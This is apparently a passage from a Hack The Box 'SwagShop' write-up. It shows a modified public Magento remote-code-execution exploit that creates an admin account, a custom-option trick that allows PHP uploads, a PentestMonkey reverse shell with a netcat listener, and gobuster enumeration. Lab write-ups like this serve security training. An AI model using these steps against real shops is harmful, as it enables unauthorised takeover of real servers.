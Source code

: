 After fumbling around, this is the one that is usable:
```
Magento eCommerce - Remote Code Execution                  | xml/webapps/37977.py
```

The script is not runnable for some syntax issues, and it uses some old libraries. So we have to modify them before running it.

```python
target = "http://swagshop.htb/index.php"

pfilter = "popularity[from]=0&popularity[to]=3&popularity[field_expr]=0);{0}".format(query).encode("utf-8")
```
The script should be OK after modifying the code up here.

```console
$ python 37977.py                                                                          
WORKED
Check http://swagshop.htb/index.php/admin with creds forme:forme
```

Now we can login at `http://swagshop.htb/index.php/admin` using `forme:forme`.

Under `Catalog` -> `Manage Products`, we are able to modify the products.

Then I found out I can add a new option to an exisiting product to upload files with any extension that I desire.

Simply click on any product, then click `Custom Options`. Add a new option with the input type as `file` and allowed file extensions as `.php`. Don't forget to save it.

Head back to `http://swagshop.htb`, click on the modified product and there we can upload our PHP reverse shell. I got my shell from [revshells.com](https://revshells.com)'s PHP PentestMonkey. 

After placing the order, I get my netcat reverse shell ready.
```console
$ nc -lnvp 9999
listening on [any] 9999 ...
```

This is where I start to fustrate, how do I trigger the reverse shell?

I can go back to the admin panel to checking orders placed, and there I can see the file uploaded from there. But I wasn't able to trigger it, the shell got downloaded when I click on it.

Then I scanned for directories hoping there are any directories to store uploaded files.

```console
$ mkdir gobuster
$ gobuster dir -u $IP -w /usr/share/wordlists/dirb/common.txt -t 20 -o gobuster/common.txt

[REDACTED]
/.hta                 (Status: 403) [Size: 291]
/.htpasswd            (Status: 403) [Size: 296]
/.htaccess            (Status: 403) [Size: 296]
/app                  (Status: 301) [Size: 310] [--> http://10.10.10.140/app/]
/errors               (Status: 301) [Size: 313] [--> http://10.10.10.140/errors/]
/favicon.ico          (Status: 200) [Size: 1150]
/includes             (Status: 301) [Size: 315] [--> http://10.10.10.140/includes/]
/index.php            (Status: 302) [Size: 0] [--> http://swagshop.htb/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.10.140/js/]
/lib                  (Status: 301) [Size: 310] [--> http://10.10.10.140/lib/]
/media                (Status: 301) [Size: 312] [--> http://10.10.10.140/media/]
/pkginfo              (Status: 301) [Size: 314] [--> http://10.10.10.140/pkginfo/]
/server-status        (Status: 403) [Size: 300]
/shell                (Status: 301) [Size: 312] [--> http://10.10.10.140/shell/]
/skin                 (Status: 301) [Size: 311] [--> http://10.10.10.140/skin/]
/var                  (Status: 301) [Size: 310] [--> http://10.10.10.140/var/]
```
